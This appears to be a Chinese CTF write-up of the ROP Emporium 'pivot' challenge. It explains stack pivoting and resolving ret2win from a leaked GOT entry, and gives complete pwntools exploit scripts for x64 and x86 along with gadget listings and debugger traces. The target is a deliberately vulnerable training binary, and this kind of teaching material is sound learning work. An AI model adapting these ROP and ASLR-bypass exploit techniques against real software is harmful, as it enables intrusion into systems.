pivot
via：https://ropemporium.com/challenge/pivot.html
There’s only enough space for a three-link chain on the stack but you’ve been given space to stash a much larger ROP chain elsewhere. Learn how to pivot the stack onto a new location. Click below to download the binary.
But why
To “stack pivot” just means to move the stack pointer elsewhere. It’s a useful ROP technique and applies in cases where your initial chain is limited in size (as it is here) or you’ve been able to write a ROP chain elsewhere in memory (a heap spray perhaps) and need to ‘pivot’ onto that new chain because you don’t control the stack.
There’s more
In this challenge you’ll also need to apply what you’ve previously learned about the .plt and .got.plt sections of ELF binaries. If you haven’t already read appendix A in the beginner’s guide, this would be a good time. This challenge imports a function called foothold_function() from a library that also contains a nice ret2win function.
Offset
The ret2win() function in the libpivot.so shared object isn’t imported, but that doesn’t mean you can’t call it using ROP! You’ll need to find the .got.plt entry of foothold_function() and add the offset of ret2win() to it to resolve its actual address. Notice that foothold_function() isn’t called during normal program flow, you’ll have to call it first to populate the .got.plt entry.
x64
其实这个题目就是 ret2libc 类型的题目
uselessFunction() 里面调用了一个 libpivot.so 里面的一个函数：foothold_function()
直接调用这个函数并没有什么用
逆向 libpivot.so 看， foothold_function() 就是一个，打印了 "foothold_function(), check out my .got.plt entry to gain a foothold into libpivot.so"

真正有用的是： libpivot.so 里面的 ret2win

但是 pivot 程序里面根本没有调用过这个函数，连 plt 都没有
因为系统开了 ASLR 和编译 .so 时都是加了 位置无关（-fPIC） 这个参数，这个参数依赖 -PIE，所以我们根本不可能通过逆向工程得到 ret2win 的地址
这个就涉及到 Linux 下面动态链接的 PLT 机制了
自己去看：https://www.jianshu.com/p/ceb0381acade 或者 https://ropemporium.com/guide.html
累，不想在这里讲延迟绑定机制
进入正题

只能输入 0x40 Bytes 的数据，而上面的 ROP 链长度已将超过了 0x40 Bytes
该怎么办，看到：


程序给出了一块 0x100 的空间
再看 usefulGadgets()

********************************************
* FUNCTION *
********************************************
undefined usefulGadgets()
undefined AL:1 <RETURN>
usefulGadgets XREF[1]: Entry Point(*)
00400b00 58 POP RAX
00400b01 c3 RET
00400b02 48 94 XCHG RAX,RSP
00400b04 c3 RET
00400b05 48 8b 00 MOV RAX,qword ptr [RAX]
00400b08 c3 RET
00400b09 48 01 e8 ADD RAX,RBP
00400b0c c3 RET
00400b0d 0f 1f 00 NOP dword ptr [RAX]
看到 pop rax; ret
xchg rax,rsp; ret
能操作 rsp，可以把栈转移到 malloc 分配的那块内存那里，这样就有足够的空间放置 ROP 链
其实思路是这样的：
第一次输入，是往 参数 param_1 指向的内存那里去写的，可以有 0x100 Bytes 的空间，我们先构造好的 ROP 链放在这里
第二次输入，利用栈溢出，把栈转移到 param_1 指向的内存那里去，从这里开始执行 ROP 链
payload：
# _*_ coding=utf-8 _*_
from pwn import *
p = process("./pivot")
pivot = ELF("./pivot")
libpivot = ELF("./libpivot.so")
foothold_function_got = pivot.got["foothold_function"]
foothold_function_plt = pivot.plt["foothold_function"]
foothold_function_offset = libpivot.symbols["foothold_function"]
ret2win_offset = libpivot.symbols["ret2win"]
p.recvuntil("pivot: ")
ropchain = int(p.recv(14), 16)
print(hex(ropchain))
pop_rax_ret = 0x00400b00
xchg_rax_rsp_ret = 0x00400b02
mov_rax_memRax_ret = 0x400b05
pop_rbp_ret = 0x400900
add_rax_rbp_ret = 0x400b09
call_rax = 0x40098e
exp = "A" * 0x28
exp += p64(pop_rax_ret) # 把程序分配的那块内存的地址放到 rax 里面
exp += p64(ropchain)
exp += p64(xchg_rax_rsp_ret) # 交换 rax 和 rsp 的值，也就是说执行完这一句程序给我们分配的那块内存就被当成栈，栈顶是 foothold_function 的 plt，所以 ret（相当与 pop rip）执行的时候相于调用了 foothold_function
rop = p64(foothold_function_plt) # 放 foothold_function 的 plt，这里会 调用 foothold_function，这个调用过程会解析 foothold_function 的线性地址，然后把它写入 got 表
rop += p64(pop_rax_ret) # 获得 foothold_function 的 got 地址
rop += p64(foothold_function_got)
rop += p64(mov_rax_memRax_ret) # 取出 got 地址指向的地址，这个地址就是 foothold_function 的真正的线性地址
rop += p64(pop_rbp_ret) # 把 ret2win 与 foothold_function 在 libpivot.so 的相对偏移放进 rbp
rop += p64(ret2win_offset - foothold_function_offset)
rop += p64(add_rax_rbp_ret) # 因为 rax 上面存的是 foothold_function 的线性地址，加上 相对偏移 就能得到 ret2win 的线性地址
rop += p64(call_rax) # call ret2win
p.sendline(rop)
p.sendline(exp)
p.interactive()
ROP 汇编（省去 _dl_runtime_resolve_xsave）：
0x400ae1 <pwnme+166> ret
↓
0x400b00 <usefulGadgets> pop rax
0x400b01 <usefulGadgets+1> ret
0x400b02 <usefulGadgets+2> xchg rax, rsp
0x400b04 <usefulGadgets+4> ret
↓
0x400850 <foothold_function@plt> jmp qword ptr [rip + 0x2017f2] <0x602048>
↓
0x7f8f512ef987 <foothold_function+23> ret
↓
0x400b00 <usefulGadgets> pop rax
0x400b01 <usefulGadgets+1> ret
↓
0x400b05 <usefulGadgets+5> mov rax, qword ptr [rax]
0x400b08 <usefulGadgets+8> ret
↓
0x400b09 <usefulGadgets+9> add rax, rbp
0x400b0c <usefulGadgets+12> ret
↓
0x40098e <frame_dummy+30> call rax <0x7f8f512efabe>
动态调试跟一下吧：
溢出：

成功设置 rax 的值

把 rsp 指向那个地址，达到转移栈的目的

下一条就是 ret ，执行这个指令的时候相当与 pop rip,现在 rsp 指向 foothold_function 的 plt，执行 ret 相当于调用 foothold_function （可以那么说吧，这个也不太正确，因为正常的调用会改变 rsp 再改变 rip，这个只是改变了 rip）

成功跳到 foothold_function，然后就是 _dl_runtime_resolve_xsave 去解析 foothold_function 的线性地址，把它写入 got 表，再执行真正的 foothold_function 函数体

好了现在写入 got 表了
继续执行
到 payload 中的
rop += p64(pop_rax_ret) # 获得 foothold_function 的 got 地址
rop += p64(foothold_function_got)
rop += p64(mov_eax_memEax_ret) # 取出 got 地址指向的地址，这个地址就是 foothold_function 的真正的线性地址

成功把 foothold_function 的线性地址放入 rax
接着执行
rop += p64(pop_rbp_ret) # 把 ret2win 与 foothold_function 在 libpivot.so 的相对偏移放进 rbp
rop += p64(ret2win_offset - foothold_function_offset)
把 相对偏移量放入 rbp 里面

看到了吗，$rax + $rbp 就是 ret2win
执行到
rop += p64(add_rax_rbp_ret) # 因为 rax 上面存的是 foothold_function 的线性地址，加上 相对偏移 就能得到 ret2win 的线性地址
rop += p64(call_rax) # call ret2win

相当与 call ret2win

pwn!
x86
一样的思路


一样的，空间不够需要把 ROP 链放在 param_1
在 usefulGadgets() 中

********************************************
* FUNCTION *
********************************************
undefined usefulGadgets()
undefined AL:1 <RETURN>
usefulGadgets XREF[1]: Entry Point(*)
080488c0 58 POP EAX
080488c1 c3 RET
080488c2 94 XCHG EAX,ESP
080488c3 c3 RET
080488c4 8b 00 MOV EAX,dword ptr [EAX]
080488c6 c3 RET
080488c7 01 d8 ADD EAX,EBX
080488c9 c3 RET
080488ca 66 90 NOP
080488cc 66 90 NOP
080488ce 66 90 NOP
完全一样的思路，看上面的 x64 吧
payload：
# _*_ coding=utf-8 _*_
from pwn import *
p = process("./pivot32")
pivot = ELF("./pivot32")
libpivot = ELF("./libpivot32.so")
foothold_function_got = pivot.got["foothold_function"]
foothold_function_plt = pivot.plt["foothold_function"]
foothold_function_offset = libpivot.symbols["foothold_function"]
ret2win_offset = libpivot.symbols["ret2win"]
p.recvuntil("pivot: ")
ropchain = int(p.recv(10), 16)
print(hex(ropchain))
pop_eax_ret = 0x080488c0
xchg_eax_esp_ret = 0x080488c2
mov_eax_memEax_ret = 0x080488c4
pop_ebx_ret = 0x08048571
add_eax_ebx_ret = 0x080488c7
call_eax = 0x080486a3
exp = "A" * 0x2c
exp += p32(pop_eax_ret) # 把程序分配的那块内存的地址放到 rax 里面
exp += p32(ropchain)
exp += p32(xchg_eax_esp_ret) # 交换 eax 和 esp 的值，也就是说执行完这一句程序给我们分配的那块内存就被当成栈，栈顶是 foothold_function 的 plt，所以 ret（相当与 pop eip）执行的时候相于调用了 foothold_function
rop = p32(foothold_function_plt) # 放 foothold_function 的 plt，这里会 调用 foothold_function，这个调用过程会解析 foothold_function 的线性地址，然后把它写入 got 表
rop += p32(pop_eax_ret) # 获得 foothold_function 的 got 地址
rop += p32(foothold_function_got)
rop += p32(mov_eax_memEax_ret) # 取出 got 地址指向的地址，这个地址就是 foothold_function 的真正的线性地址
rop += p32(pop_ebx_ret) # 把 ret2win 与 foothold_function 在 libpivot.so 的相对偏移放进 ebx
rop += p32(ret2win_offset - foothold_function_offset)
rop += p32(add_eax_ebx_ret) # 因为 eax 上面存的是 foothold_function 的线性地址，加上 相对偏移 就能得到 ret2win 的线性地址
rop += p32(call_eax) # call ret2win
gdb.attach(pidof(p)[0])
p.sendline(rop)
p.sendline(exp)
p.interactive()
这个 payload 还是直接复制，然后改了 gadget 的地址，和这里用来存 相对偏移量的是 ebx 而不是 rbp，其他的没有区别

pwn!